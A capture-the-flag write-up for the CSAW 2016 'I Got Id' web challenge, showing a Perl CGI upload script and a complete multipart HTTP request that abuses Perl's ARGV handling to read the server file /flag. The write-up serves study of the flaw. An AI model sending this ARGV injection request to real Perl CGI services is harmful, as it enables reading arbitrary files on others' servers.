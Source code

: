 ```yaml
---
layout: post
ctf: "CSAW CTF Quals 2016"
title: "Web 200 - I Got Id"
---
```


This challlenge was a frustrating blackbox. No information was given about it, although, it was obvious that the website was made using Perl. We solve this challenge on the last day when someone stumbled uppon a [Blackhat ASIA 2016 talk](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf) about Perl that seemed to fit what the challenge was doing.

Here is the full source code of `file.pl`

```perl
use strict;
use warnings;
use CGI;

my $cgi = CGI->new;

print $cgi->header;

print << "EndOfHTML";
<!DOCTYPE html
 	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
 	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
 	<head>
 		<title>Perl File Upload</title>
 		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
 	</head>
 	<body>
 		<h1>Perl File Upload</h1>
 		<form method="post" enctype="multipart/form-data">
 			File: <input type="file" name="file" />
 			<input type="submit" name="Submit!" value="Submit!" />
 		</form>
 		<hr />
EndOfHTML

if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    while (<$file>) {
        print "$_";
        print "<br />";
    }
}

print '</body></html>';
```

The slides explains pretty well how to exploit this script. We had a local file inclusion vulnerability that we can exploit to find the flag. This request was then made to extract the file `/flag` which conveniently contained the flag solving the challenge.

```
POST http://127.0.0.1/cgi-bin/file.pl?/flag HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBmriDnOpKyHMfymW

------WebKitFormBoundaryBmriDnOpKyHMfymW
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundaryBmriDnOpKyHMfymW
Content-Disposition: form-data; name="file"; filename="we"
Content-Type: text/aaaa

123
------WebKitFormBoundaryBmriDnOpKyHMfymW--
```
